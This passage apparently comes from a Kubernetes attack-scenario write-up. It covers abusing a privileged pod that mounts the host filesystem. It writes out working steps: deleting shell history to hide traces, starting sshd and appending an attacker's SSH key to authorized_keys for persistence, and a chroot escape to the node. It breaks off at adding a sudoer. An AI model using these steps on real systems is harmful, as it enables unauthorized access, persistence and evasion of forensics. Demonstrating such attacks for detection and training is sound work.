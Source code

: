 <div style="text-align: center">
<img src="https://user-images.githubusercontent.com/18376283/156260635-7eab818b-d5bd-4168-9b6d-a84b5c35fd01.png" />
</div>

<p></p>

- Deleting .bash_history to cover our traces: this is a regular evidence hiding step taken by attackers to remove traces of the commands they ran on a system.

<div style="text-align: center">
<img src="https://user-images.githubusercontent.com/18376283/156261238-bbe91fee-a1d2-47ce-b0f8-5f162b300a14.png" />
</div>

<p></p>

### Abusing pod and host through root volume mount

**Pod used:** System Monitor<br />
**Pod properties:** <br />
- Privileged Context <br />
- Sensitive Mount: the full host system / volume is mounted in the pod, in /host-system

<div style="text-align: center">
<img src="https://user-images.githubusercontent.com/18376283/156262001-14395eb9-dc3c-4ec6-a447-da7fe0b7d444.png" />
</div>

<p></p>

In this scenario, we took the following actions:

- Enabled the SSH server on the host to allow for instance for remote access (persistency) and added a newly generated attacker controlled SSH key to authorized keys on the host. We simply used ssh-keygen to generate a new sample key pair for SSH:

```bash
/usr/bin/sshd start~`
`echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCmljeUnkk3eBlavzDmw3Dm5gQJrjCs//3CxJ+4mjbRbja4Hu1o46smTsHJkgXVfwyelUbTTCjRny5LcP9A
4AzQfdLTkhnHrfFNpSja7ouOzL4cyPrgtA0qvJWYPwRvXYAiO9tJ1G6XEYz3Y+i2WbVP+c/OIUUqojldlJaEeFgVu8+TArHUtAx6HOXkpeFE/+6dBEpb/ezG
sGO4Afp9FZxCChVoLLWEa6Bdbdjsq0PxKbp3/+kf9OyJCB2kHRiEyJBDGmXrsgo/cJ5mdgfM0EN2OwKJm9MKH+73LpX2HXH+76Vr5OjiedlKxTfQq37rBpyG
pyE6tQqV1DRLPz7cCi3ALc74FVghQRBVCL/Jv0MXBoBbC3H+Ik148ZyKzGzrBMJkICnaftpQw8fwHkGhzH+zkRK5fwZBS3kEL1lM8hvJ7Q0VxasqOLgpdYAa
sWE4Y1lCLqTdRjtYsuRshcdJj8soa9tKWwwDbiEPANLvuilsyRrwp0YpWwv2XhpjnpWl+gU= " >> ~/.ssh/authorized_keys
```

- Escape to the node using chroot (basically changing our root directory to the host's and launching bash from there):

```bash
chroot /host-system bash
```

- Adding a new user to the sudoers group:
